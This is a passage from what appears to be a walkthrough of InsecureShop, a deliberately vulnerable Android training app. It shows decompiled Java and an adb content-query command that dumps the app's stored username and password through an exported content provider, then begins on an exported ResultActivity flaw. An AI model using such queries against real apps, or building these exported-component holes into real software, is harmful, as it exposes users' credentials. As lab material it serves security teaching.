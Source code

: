 ```java
        String[] strArr = new String[2];
        String username = Prefs.INSTANCE.getUsername();
        if (username == null) {
            Intrinsics.throwNpe();
        }
        strArr[0] = username;
        String password = Prefs.INSTANCE.getPassword();
        if (password == null) {
            Intrinsics.throwNpe();
        }
        strArr[1] = password;
        cursor.addRow(strArr);
        return cursor;
    }
}
```

The code here is doing two things: 

- Creating an object from the `UriMatcher` class, which is a handy class when you are writing a Content Provider or some other class that needs to respond to a number of different URIs, that matches for this URI  `com.insecureshop.provider/insecure`.
- Then, Using Cursor to query, update, delete the username and password from the `shared_prefs` i.e. `Prefs.xml` file.

So we can simply now access this content provider via the AM Commands utility.

```powershell
# android:authorities -- com.insecureshop.provider
# URI matcher -- insecure
# Read Permessions allowed -- com.insecureshop.permission.READ 
PS C:\Users\Muhammad> adb shell content query --uri content://com.insecureshop.provider/insecure
Row: 0 username=shopuser, password=!ns3csh0p
```

## **Insecure Implementation of SetResult in exported Activity**

> **Description:** The insecure implementation used in `ResultActivity` can be used to access arbitrary content providers.

Let’s review the `ResultActivity` code. First, note that this activity is an exported one.

```xml
<activity android:name="com.insecureshop.ResultActivity" android:exported="true"/> 
```

Moving to its actual code:

```java
   public void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setResult(-1, getIntent());
        finish();
    }
```

